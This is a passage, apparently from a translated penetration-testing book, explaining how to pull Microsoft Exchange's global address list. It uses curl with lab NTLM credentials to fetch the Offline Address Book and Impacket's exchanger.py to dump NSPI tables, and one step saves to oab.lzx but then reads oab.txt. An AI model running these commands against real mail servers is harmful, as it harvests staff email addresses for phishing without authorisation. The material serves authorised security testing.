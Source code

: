 图 1.10 – OABUrl 提取

接下来，我们将复制`oab.xml`文件并解析它，以找到包含`data`字样的文件名的`.lzx`文件的 URL。这就是我们的 GAL OAB 文件。最后一步，我们将保存该文件并解析其中的邮件地址：

```
curl -k --ntlm -u 'windomain.local\vinegrep:Qwerty123!' https://exchange.windomain.local/OAB/e79472bb-2dd6-4ffb-9e02-8dd42510bb1b/oab.xml > oab.xml
cat oab.xml | grep '.lzx' | grep data
curl -k --ntlm -u 'windomain.local\vinegrep:Qwerty123!' https://exchange.windomain.local/OAB/e79472bb-2dd6-4ffb-9e02-8dd42510bb1b/007215f1-4ab8-4ed2-a503-4cd82b0d8093-data-1.lzx > oab.lzx
strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,5}" | sort -u
```

可以在以下截图中看到从 OAB 提取的 GAL 邮件：

![图 1.11 – 使用 OAB 提取 GAL 邮件](img/B18964_01_11.jpg)

图 1.11 – 使用 OAB 提取 GAL 邮件

通过 NSPI 导出通讯簿的另一种方式是由*Positive Technologies*在他们的研究中发现的[14]。一个名为`Exchanger`的工具现在是 Impacket 的一部分，因此我们可以直接使用它，无需额外安装。第一步，我们列出表格以获取 GUID，然后使用 GUID 导出有前景的表格：

```
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi list-tables -count
python3 exchanger.py windomain.local/vinegrep:'Qwerty123!'@exchange.windomain.local -debug nspi dump-tables -guid 715d9794-704c-4fe3-a038-24f149747b2c -lookup-type EXTENDED
```

导出结果可以在以下截图中看到：

![图 1.12 – 通过 NSPI 根据 GUID 导出通讯簿](img/B18964_01_12.jpg)

图 1.12 – 通过 NSPI 根据 GUID 导出通讯簿
